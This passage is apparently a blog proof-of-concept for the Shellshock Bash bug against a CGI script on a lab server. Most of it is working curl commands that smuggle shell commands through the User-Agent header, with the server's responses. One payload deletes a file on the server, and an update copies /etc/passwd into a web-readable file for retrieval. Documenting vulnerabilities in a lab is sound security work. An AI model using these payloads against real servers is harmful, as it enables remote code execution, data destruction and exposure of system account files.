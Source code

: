 Now, using the Bash bug, and the handy flag for setting the user-agent with
`curl`, we do the following evil thing:

```shell
$ curl -A "() { :; }; /bin/rm /var/www/target" http://192.168.0.1/poc.cgi
```

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator,
 webmaster@localhost and inform them of the time the error occurred,
and anything you might have done that may have
caused the error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 192.168.0.1 Port 80</address>
</body></html>
```

Notice that I've used a path that is owned by the webserver to avoid permission issues. Also, in quick testing, anything that wrote to STDOUT caused header errors. I even tried sending the content type in the user-agent definition. Back to checking on the damage that we have done:

```shell
$ curl http://192.168.0.1/target
```

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /target was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 192.168.0.1 Port 80</address>
</body></html>
```

So there it is, RCE for a Bash CGI script.

<a id="u1"></a>
## Update 1 - Fixing a header issue

Getting around the STDOUT issue wrecking headers is easier than I thought; `cat`
the file and redirect the output, then fetch the file:

```shell
$ curl -A '() { :; }; /bin/cat /etc/passwd > dumped_file' http://192.168.0.1/poc.cgi
```
